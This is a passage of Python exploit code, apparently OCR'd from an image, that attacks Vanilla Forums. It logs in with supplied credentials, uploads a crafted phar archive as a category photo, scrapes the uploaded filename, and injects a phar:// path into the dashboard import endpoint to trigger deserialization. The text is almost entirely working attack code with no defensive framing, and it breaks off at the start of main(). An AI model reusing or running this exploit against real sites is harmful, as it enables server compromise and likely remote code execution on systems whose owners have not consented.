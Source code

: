 ```python
        "PathSelect": "phar:///var/www/html/uploads/%s.jpg" % leaked,    # This is where we do the injection. This trick is quite old actually.
    }
    r = s.post("%s/index.php?p=/dashboard/import" % t, data=p)
    if r.status_code == 200 and "Email is required" in r.text:
        return True
    return False


def we_can_leak_phar_name(t, csrf):
    """
    This function leaks the filename of the image. We use the General category
    because its default id is 1.
    """
    global leaked
    k, c = extract_csrf(csrf)
    r = s.get("%s/index.php?p=/categories" % t)
    r.text
    match = re.search("uploads/(.*).jpg\" class=\"CategoryPhoto\" alt=\"General\"", r.text)
    if match:
        leaked = match.group(1)
        return True
    return False

def we_can_upload(t, csrf):
    """
    This function uploads the phar archive that we crafted
    """
    k, c = extract_csrf(csrf)
    f = { 'Photo_New': open('poc.jpg', 'rb') }
    p = {
      'TransientKey': k,
      'CategoryID': 1,
      'Save': "Save",
    }
    r = s.post("%s/index.php?p=/vanilla/settings/editcategory" % t, files=f, data=p, allow_redirects=False)
    if r.status_code == 302 and "vanilla/settings/categories" in r.headers['Location']:
        return True
    return False


def we_can_login(t, usr, pwd, csrf):
    """
    We just log in with this function
    """
    global s
    s = requests.session()
    k, c = extract_csrf(csrf)
    p = {
        "TransientKey": k,
        "Email": usr,
        "Password": pwd,
        "DeliveryType": "VIEW",
    }
    r = s.post("%s/index.php?p=/entry/signin" % t, cookies=c, data=p)
    if r.status_code == 200 and "\"FormSaved\": true" in r.text:
        return True
    return False

def main():
    """
    Start the pain train
```
